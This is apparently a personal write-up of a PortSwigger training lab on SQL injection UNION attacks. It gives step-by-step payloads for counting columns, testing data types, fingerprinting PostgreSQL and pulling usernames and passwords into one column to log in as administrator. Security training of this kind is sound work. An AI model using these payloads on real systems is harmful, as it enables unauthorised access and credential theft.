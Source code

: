 #+title: SQL injection UNION attack, retrieving multiple values in a single column
* TABLE OF CONTENTS :toc:
- [[#about][About]]
  - [[#end-goal][End Goal]]
- [[#steps][Steps]]
  - [[#step-1][Step 1]]
  - [[#step-2][Step 2]]
- [[#solution][Solution]]

* About
Sql injection on ~category~ filter

** End Goal
Login as ~administrator~ by retrieving password


* Steps
** Step 1
Like previous lab first of all determine how many columns are there
#+begin_src sql
'ORDER BY 1 --
#+end_src
200 success
#+begin_src sql
'ORDER BY 2 --
#+end_src
200 success
#+begin_src sql
'ORDER BY 3 --
#+end_src
500 error

column = 2

** Step 2
Determine which data types are those 2 columns are using
#+begin_src sql
'UNION SELECT 'abc', NULL --
#+end_src
500 error
#+begin_src sql
'UNION SELECT NULL, 'abc' --
#+end_src
200 success

So 2nd column using only using string type. But we have to get two field ~username~ and ~password~ . So how can we show both column data in one column that are supporting string value. We have to combine those 2 column value into one

Now there are syntax variation between different type of database system. We have to find what type of database system this lab is using

[[https://portswigger.net/web-security/sql-injection/cheat-sheet][check this link]]

#+begin_src sql
'UNION SELECT NULL, VERSION() --
#+end_src
This lab using ~PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit~

* Solution
Now we can combine both username and password data into one column
#+begin_src sql
'UNION SELECT NULL, username || password FROM users --
#+end_src

Now login with administrator with password to solve the lab
